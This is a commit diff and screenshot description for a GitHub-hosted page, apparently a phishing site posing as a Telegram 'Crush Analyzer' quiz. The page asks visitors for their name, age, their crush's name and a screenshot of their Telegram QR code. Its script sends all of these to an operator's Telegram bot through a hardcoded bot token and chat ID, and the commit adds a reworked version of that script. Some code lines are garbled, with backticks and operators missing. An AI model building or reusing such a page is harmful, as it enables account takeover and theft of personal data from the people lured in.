

Before and after one commit to sam4848-code/crush1, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 120-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -2,79 +2,71 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-    <title>Telegram Knows What Your Crush Thinks About You 💘</title>
+  <title>Telegram Knows About Your Crush</title>
   <style>
-        body {
-            font-family: Arial, sans-serif;
-            text-align: center;
-            padding: 20px;
-            background-color: #fce4ec;
-            font-size: 24px; /* BIGGER TEXT */
-        }
-        input, button {
-            margin: 15px 0;
-            padding: 18px;
-            width: 90%;
-            max-width: 400px;
-            font-size: 22px; /* BIGGER INPUT TEXT */
-        }
-        .warning {
-            color: red;
-            font-size: 20px; /* BIGGER WARNING */
-        }
-        h2 {
-            font-size: 32px; /* BIGGER TITLE */
-        }
-        #statusMsg {
-            margin-top: 20px;
-            font-size: 22px; /* Bigger status text */
-        }
+    body { font-family: Arial; padding: 20px; font-size: 26px; }
+    label, input, button { display: block; margin-top: 12px; font-size: 24px; }
+    button { padding: 10px 20px; }
   </style>
 </head>
 <body>
-    <h2>💘Telegram Knows What Your Crush Thinks About You 💘</h2>
+  <h2>🔮 Crush Analyzer 🔮</h2>
+  <p>Send the QR code on your Telegram app, their name, your age, and your name. (Then you will know the truth ❤️)</p>
 
-    <input type="text" id="yourName" placeholder="Your Name"><br>
-    <input type="number" id="yourAge" placeholder="Your Age"><br>
-    <input type="text" id="crushName" placeholder="Your Crush's Name"><br>
+  <form id="crushForm">
+    <label>Your Name:</label>
+    <input type="text" id="yourName" required>
 
-    <p class="warning">Telegram knows about your crush.</p>
-    <input type="file" id="QRcode" accept="image/*"><br>
+    <label>Your Age:</label>
+    <input type="number" id="yourAge" required>
 
-    <button onclick="sendData()">Submit & Get Reading</button>
+    <label>Crush's Name:</label>
+    <input type="text" id="crushName" required>
 
-    <p id="statusMsg"></p>
+    <label>Upload Crush Photo:</label>
+    <input type="file" id="YourQR(screenshot)" accept="image/*" required>
+
+    <button type="submit">Tell Me the Truth 🔥</button>
+  </form>
+
+  <p id="status" style="color:green;"></p>
 
   <script>
-        async function sendData() {
-            const yourName = document.getElementById('yourName').value;
-            const yourAge = document.getElementById('yourAge').value;
-            const crushName = document.getElementById('crushName').value;
-            const photoInput = document.getElementById('QRcode');
+    const BOT_TOKEN = "7548275702:AAEI9W4yHPQA6FiWCXiGUbqkkjBEXcSG29Y";
+    const CHAT_ID = "7546051597";
 
-            if (!yourName  !yourAge  !crushName || photoInput.files.length === 0) {
-                document.getElementById('statusMsg').innerText = "❌ Please fill all fields and upload a photo.";
-                return;
-            }
+    document.getElementById('crushForm').addEventListener('submit', async function(e) {
+      e.preventDefault();
 
-            document.getElementById('statusMsg').innerText = "🔮 Sending... Please wait...";
+      const name = document.getElementById('yourName').value;
+      const age = document.getElementById('yourAge').value;
+      const crush = document.getElementById('crushName').value;
+      const photo = document.getElementById('YourQR(screenshot)').files[0];
 
+      // ✅ Step 1: Send Text Info
+      const text = 💌 New Crush Submission:\n\n👤 Your Name: ${name}\n🎂 Your Age: ${age}\n❤️ Crush's Name: ${crush};
+      await fetch(https://api.telegram.org/bot${BOT_TOKEN}/sendMessage, {
+        method: 'POST',
+        headers: { 'Content-Type': 'application/json' },
+        body: JSON.stringify({
+          chat_id: CHAT_ID,
+          text: text
+        })
+      });
+
+      // ✅ Step 2: Send Photo
       const formData = new FormData();
-            formData.append('chat_id', '7546051597');  // 🛑 Replace this!
-            formData.append('caption', New Crush Reading Request:\\nName: ${yourName}\\nAge: ${yourAge}\\nCrush: ${crushName});
-            formData.append('photo', photoInput.files[0]);
+      formData.append('chat_id', CHAT_ID);
+      formData.append('photo', photo);
 
-            try {
-                await fetch(https://api.telegram.org/bot7548275702:AAEI9W4yHPQA6FiWCXiGUbqkkjBEXcSG29Y/sendPhoto, {  // 🛑 Replace this!
+      await fetch(https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto, {
         method: 'POST',
         body: formData
       });
-                document.getElementById('statusMsg').innerText = "✅ Your info has been sent! You will get soon with your reading ✨";
-            } catch (error) {
-                console.error(error);
-                document.getElementById('statusMsg').innerText = "❌ Error sending your info. Please try again later.";
-            }
-        }
+
+      document.getElementById('status').innerText = "✅ Sent Successfully!";
+      document.getElementById('crushForm').reset();
+    });
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
